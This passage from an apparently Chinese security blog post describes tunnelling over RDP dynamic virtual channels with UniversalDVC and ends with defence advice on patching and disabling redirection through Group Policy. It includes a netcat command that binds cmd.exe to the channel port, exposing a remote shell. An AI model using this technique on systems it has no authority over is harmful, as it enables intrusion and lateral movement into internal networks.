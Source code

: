 #### (5)RDP Server启动UDVC-Server.exe

命令如下：

```
UDVC-Server.x64.exe -p 5678 -0
```

此时将建立一条动态虚拟通道：RDP Server->RDP Client:1234

并且RDP Server开启监听端口5678

#### (6)RDP Server使用nc连接本地端口5678并指定重定向的程序为`c:\windows\system32\cmd.exe`

命令如下：

```
nc64.exe 127.0.0.1 5678 -e c:\windows\system32\cmd.exe
```

通道建立完成，简要流程图如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-5/4-3.png)

## 0x06 利用分析
---

对于这三种建立通道的方法(共享文件、rdp2tcp和UniversalDVC)，利用前提是已经获得了连接远程桌面的权限

严格地说，利用这台远程桌面服务器，就已经能够对内网资源进行访问

研究这种方法的意义在于某些情况下远程桌面服务器无法运行我们的程序

例如远程桌面服务器为Windows系统，而我们想执行的程序只支持Linux，这就避免了考虑程序移植的问题


## 0x07 防御建议
---

1.外网远程桌面服务器的安全

如果攻击者能够使用远程桌面协议建立通道，代表攻击者已经获得了这台服务器的权限，所以对于开放外网访问的远程桌面服务器，不仅要及时更新补丁，还要注意防范口令爆破

2.使用组策略禁用重定向的设备

组策略位置：

`Computer Configuration`->`Administrative Templates`->`Windows Components`->`Remote Desktop Services`->`Remote Desktop Session Host`->`Device and Resource Redirection`

## 0x08 小结
---

本文参考@cpl3h的文章，对使用远程桌面协议建立通道的方法进行整理，结合自己的经验，添加个人理解，分析利用思路，总结防御建议。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)






